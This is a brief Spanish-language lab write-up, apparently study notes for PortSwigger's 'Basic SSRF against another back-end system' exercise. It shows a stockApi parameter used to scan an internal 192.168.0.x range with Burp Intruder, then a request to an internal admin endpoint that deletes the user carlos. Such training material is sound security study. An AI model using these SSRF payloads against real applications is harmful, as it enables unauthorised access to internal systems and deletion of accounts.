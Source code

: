 Tags: #SSRF #PortSwigger 

# Lab 2 Basic SSRF against another back-end system


```bash 
# Debemos de descubir el panel de administrador de la sig IP: 192.168.0.x 
# Podemos usar el Intruder de BurpSuite para encontrar esa direccion 

stockApi=http://192.168.0.1:8080/admin    # Haremos un ataque Sniper para poder descubrir la IP correcta 


# una vez encontarda, procedemos a borrar al usuario 
stockApi=http://192.168.0.111:8080/admin/delete?username=carlos

```